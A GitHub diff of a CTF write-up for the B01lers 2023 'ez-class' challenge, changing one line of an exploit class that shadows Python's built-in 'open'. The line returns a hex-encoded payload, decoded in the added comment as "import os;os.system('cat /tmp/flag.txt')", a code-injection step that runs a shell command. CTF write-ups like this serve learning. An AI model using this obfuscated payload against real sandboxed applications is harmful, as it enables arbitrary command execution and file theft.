

Before and after one commit to salvatore-abello/CTF-Writeups, a Markdown page: B01lers CTF - 2023/ez-class/writeup.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/B01lers CTF - 2023/ez-class/writeup.md
+++ b/B01lers CTF - 2023/ez-class/writeup.md
@@ -65,7 +65,7 @@ class open(object):
         pass
 
     def read(self):
-        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
+        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"  # import os;os.system('cat /tmp/flag.txt')
 ```
 
 We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
````
